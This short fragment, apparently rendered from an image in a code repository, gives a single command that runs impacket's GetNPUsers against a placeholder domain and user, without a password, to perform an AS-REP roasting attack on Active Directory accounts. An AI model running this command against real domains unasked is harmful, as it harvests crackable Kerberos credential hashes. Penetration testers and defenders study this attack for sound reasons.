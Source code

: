 ## Use this impacket module to perform an ASREP-Roasting attack

#### 1) Impacket-GetNPUsers DOMAIN.COM\USERNAME -no-pass
